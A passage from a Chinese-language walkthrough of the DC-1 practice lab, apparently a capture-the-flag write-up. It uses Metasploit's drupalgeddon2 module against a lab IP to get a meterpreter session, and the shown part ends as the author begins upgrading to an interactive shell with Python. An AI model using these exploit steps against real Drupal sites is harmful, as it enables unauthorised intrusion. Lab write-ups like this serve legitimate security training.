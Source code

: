 ~~~
use exploit/unix/webapp/drupal_drupalgeddon2
~~~

![image-20211031143316570](DC-1通关手册.assets/image-20211031143316570.png)

使用命令来进行参数设置

~~~
show options
~~~

![image-20211031143329551](DC-1通关手册.assets/image-20211031143329551.png)

对于Required为yes的项都需要设置才能使用，此处设置RHOSTS为目标靶机ip

使用命令

~~~
set RHOSTS 192.168.10.142
~~~

![image-20211031143501598](DC-1通关手册.assets/image-20211031143501598.png)

使用命令exploit 启动

~~~
exploit
~~~

可以看到已经攻击成功，已经建立了一个meterpreter会话，可以理解为建立了一个反弹shell

![image-20211031144009034](DC-1通关手册.assets/image-20211031144009034.png)

使用命令

~~~
shell
~~~

进入shell中，并尝试使用几个命令

![image-20211031144512068](DC-1通关手册.assets/image-20211031144512068.png)

但这个shell并不是一个交互式shell，对于后续的渗透测试很不方便，我们需要将这个shell变为交互式shell，关于交互式shell和非交互式shell的不同，还是希望大家能自己手动查查。

由于使用python -v发现靶机上装了python2.7，则考虑可以使用python中的命令来唤出交互式shell

![image-20211031144904175](DC-1通关手册.assets/image-20211031144904175.png)

先按下Ctrl+Z强制结束当前的shell,输入y确定

回退到meterpreter会话

再输入命令进入到非交互式shell

~~~
shell
~~~

再使用python使用交互式shell

